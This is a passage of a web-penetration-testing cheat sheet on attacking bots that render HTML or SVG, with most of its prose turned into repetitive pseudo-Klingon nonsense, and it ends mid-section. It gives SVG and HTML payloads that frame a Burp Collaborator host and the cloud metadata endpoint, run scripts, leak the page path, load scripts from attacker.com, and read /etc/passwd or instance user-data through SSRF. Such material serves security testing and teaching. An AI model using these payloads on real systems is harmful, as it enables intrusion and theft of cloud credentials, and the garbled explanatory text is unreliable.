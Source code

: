 ghItlhvam 'ej vItlhutlhvam payloads may be used inside this SVG payload. 'ej cha'logh Burpcollab subdomain 'ej metadata endpoint 'e' vItlhutlhvam.
```markup
<svg xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1" class="root" width="800" height="500">
<g>
<foreignObject width="800" height="500">
<body xmlns="http://www.w3.org/1999/xhtml">
<iframe src="http://redacted.burpcollaborator.net" width="800" height="500"></iframe>
<iframe src="http://169.254.169.254/latest/meta-data/" width="800" height="500"></iframe>
</body>
</foreignObject>
</g>
</svg>


<svg width="100%" height="100%" viewBox="0 0 100 100"
xmlns="http://www.w3.org/2000/svg">
<circle cx="50" cy="50" r="45" fill="green"
id="foo"/>
<script type="text/javascript">
// <![CDATA[
alert(1);
// ]]>
</script>
</svg>
```
**ghItlhlaH** [**https://github.com/allanlw/svg-cheatsheet**](https://github.com/allanlw/svg-cheatsheet) **DajatlhlaH** **SVG payloads** **lot** **legh**.

### Path disclosure
```markup
<!-- If the bot is accessing a file:// path, you will discover the internal path
if not, you will at least have wich path the bot is accessing -->
<img src="x" onerror="document.write(window.location)" />
<script> document.write(window.location) </script>
```
### ʼIw HIq vItlhutlh

vItlhutlh vulnerability vItlhutlh exploit vItlhutlh bot vItlhutlh locally vItlhutlh script vItlhutlh load vItlhutlh control vItlhutlh script vItlhutlh payload vItlhutlh change vItlhutlh locally vItlhutlh bot vItlhutlh load vItlhutlh code vItlhutlh time vItlhutlh.
```markup
<script src="http://attacker.com/myscripts.js"></script>
<img src="xasdasdasd" onerror="document.write('<script src="https://attacker.com/test.js"></script>')"/>
```
### Read local file / SSRF

{% hint style="warning" %}
Change `file:///etc/passwd` for `http://169.254.169.254/latest/user-data` for example to **try to access an external web page (SSRF)**.
